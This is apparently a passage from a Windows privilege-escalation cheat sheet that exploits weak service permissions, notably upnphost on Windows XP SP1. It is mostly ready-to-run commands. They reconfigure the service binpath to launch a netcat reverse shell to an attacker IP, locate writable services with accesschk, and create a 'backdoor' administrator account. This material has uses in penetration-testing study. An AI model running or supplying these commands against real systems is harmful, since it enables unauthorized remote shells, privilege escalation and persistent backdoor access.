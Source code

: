 If you don't have access to wmic, you can do:

```
sc qc upnphost
```

Windows XP SP1 is known to be vulnerable to PE in **upnphost**. You get Administrator with:

```
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```

If it fails because of a missing dependency, run the following:

```
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost
```

Or remove the dependency:

```
sc config upnphost depend= ""
```

Using meterpreter:

```
exploit/windows/local/service_permissions
```

## acesschk.exe

If wmic and sc is not available, you can use accesschk. For Windows XP, version 5.2 of accesschk is needed:

```
https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
```

```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```

Then query the service using Windows sc:

```
sc qc <vulnerable service name>
```

Then change the binpath to execute your own commands (restart of the service will most likely be needed):

```
sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
sc stop <vuln-service>
sc start <vuln$ -service>
sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
sc stop <vuln-service>
sc start <vuln-service>
```
